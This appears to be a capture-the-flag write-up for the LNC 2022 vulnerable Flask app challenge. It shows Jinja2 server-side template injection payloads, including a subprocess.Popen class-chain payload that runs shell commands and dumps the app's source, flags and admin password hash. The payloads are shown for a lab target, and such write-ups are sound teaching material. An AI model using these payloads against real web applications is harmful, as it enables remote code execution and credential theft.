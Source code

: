 ```yaml
---
description: 65 Solves
---
```


# Outline - Task 1 & 2

> dOh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 1: Retrieve the flag from its configs
>
> `nc c2.lagncrash.com 8002`

![](<../../.gitbook/assets/image (19).png>)

![](<../../.gitbook/assets/image (25).png>)

We noticed that our input is being shown directly above. This might mean a possibility of SSTI as there may be a template engine rendering the template and placing our user input into the page.

![](<../../.gitbook/assets/image (32).png>)

![](<../../.gitbook/assets/image (37) (1).png>)

From the above output, we can see that `{{7*7}}` results in 49 and `{{7*'7'}}` results in 7777777. This means the template engine running is Jinja2, where the challenge has informed us the server is running Flask.

![](../../.gitbook/assets/image.png)

![](<../../.gitbook/assets/image (6) (1).png>)

`{{ config.items() }}` shows us the configuration of the web server which shows us the hidden flag in 'SECRET KEY'.&#x20;

## Task 2`(36 solves)`

> Oh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!
>
> Task 2: /flag seems to have an error... Try accessing as one of the other users!
>
> `nc c2.lagncrash.com 8002`

![](<../../.gitbook/assets/image (14) (1).png>)

![](<../../.gitbook/assets/image (24) (1).png>)

After dumping the subclasses, I found the class `subprocess.Popen` being available to us to launch a process for arbitrary command execution.

![](<../../.gitbook/assets/image (7) (1).png>)

We copied the output and get the index of the class `subprocess.Popen` which is 215.

`{{''.__class__.mro()[1].__subclasses__()[`215`]('ls',shell=True,stdout=-1).communicate()[0].split()}}`

![](<../../.gitbook/assets/image (35).png>)

`{{''.__class__.mro()[1].__subclasses__()[`215`]('cat app.py',shell=True,stdout=-1).communicate()[0].splitlines()}}`

![](<../../.gitbook/assets/image (26).png>)

```python
[b'from flask import Flask, Response, render_template, request, redirect, url_for, session, send_from_directory, render_template_string', b'import shelve', b'import hashlib', b'from User import User', b'from Mail import Mail', b'', b"app = Flask(__name__, static_url_path='',static_folder='static')", b'app.secret_key = "LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b'', b"@app.route('/', methods=['GET'])", b'def home():', b' return render_template("home.html")', b'', b'', b"@app.route('/register', methods=['GET','POST'])", b'def register():', b" if request.method == 'GET':", b' return render_template("register.html")', b" elif request.method == 'POST':", b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'w')", b" users = db['users']", b' user = User(username, password)', b' users[username] = user.asdict()', b" db['users'] = users", b' return redirect(url_for("home"))', b'', b'', b"@app.route('/login', methods=['POST'])", b'def login():', b' loggedin = False', b" username = request.form['username']", b" password = sha256(request.form['password'])", b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' try:', b' user = users[username]', b" print(user['password'], password)", b" if user['password'] == password:", b' loggedin = True', b" print('2')", b' else:', b" print('3')", b' pass', b' except:', b" print('4')", b' pass', b'', b' if loggedin == True:', b' session["username"] = user[\'username\']', b' session["login"] = user[\'id\']', b" return redirect(url_for('mail'))", b' else:', b' response = Response(400)', b' response.data = "Authentication failed"', b' return response', b'', b"@app.route('/mail', methods=['GET', 'POST'])", b'def mail():', b" if request.method == 'GET':", b' return render_template("mail.html")', b" elif request.method == 'POST':", b" sender = request.form['sender']", b" receiver = request.form['receiver']", b" subject = request.form['subject']", b" body = request.form['body']", b' mail = Mail(sender,receiver,subject,body)', b' id = mail.get_id()', b" db = shelve.open('storage.db', 'w')", b" mail_dict = db['mail']", b' mail_dict[id] = mail', b" db['mail'] = mail_dict", b' return render_template("sent.html", id=id)', b'', b"@app.route('/emails/<mailid>', methods=['GET'])", b'def emails(mailid):', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b" mail_dict = db['mail']", b' mail = mail_dict[mailid]', b' db.close()', b" html = f'From: {mail.get_sender()} \\", b' To: {mail.get_receiver()} \\', b' Subject: {mail.get_subject()} \\', b" {mail.get_body()}'", b' return render_template_string(html,users=users)', b'', b'', b"@app.route('/flag', methods=['GET'])", b'def flag():', b" db = shelve.open('storage.db', 'r')", b" users = db['users']", b' if session["username"] == "bigboiadmin" and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', b' response = Response(200)', b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"', b' else:', b' response = Response(400)', b' response.data = "You are not allowed to view this page"', b' return response', b'', b'', b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature', b'', b'', b'if __name__ == "__main__":', b" db = shelve.open('storage.db', 'c')", b' db[\'users\'] = {"bigboiadmin":{\'id\':\'4SAW8NH0I37CIE13MVC1Q1CL42N6PTFGECIQKS3Y0U8N8CEP\', \'username\': \'bigboiadmin\', \'password\': \'2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350\'}}', b" db['mail'] = {}", b' db.close()', b' app.run()']
```

From the above output in app.py, we can find the flag in the application logic, where we are supposed to login as bigboiadmin to obtain the flag.

```
if session["username"] == "bigboiadmin" 
and session[\'login\'] == users[\'bigboiadmin\'][\'id\']:', 
b' response = Response(200)', 
b' response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}"',
 b' else:', b' response = Response(400)', 
 b' response.data = "You are not allowed to view this page"', 
 b' return response'
```

![](<../../.gitbook/assets/image (11).png>)

```
b'def sha256(hash_string):', b' sha_signature = \\', b' hashlib.sha256((hash_string).encode()).hexdigest()', b' return sha_signature'
```

We found a SHA256 hash function in the code which implies the password is hashed with SHA256.

![](<../../.gitbook/assets/image (4).png>)

I first cracked the SHA256 password hash before using the credentials to login and obtained the flag.

![](<../../.gitbook/assets/image (38).png>)


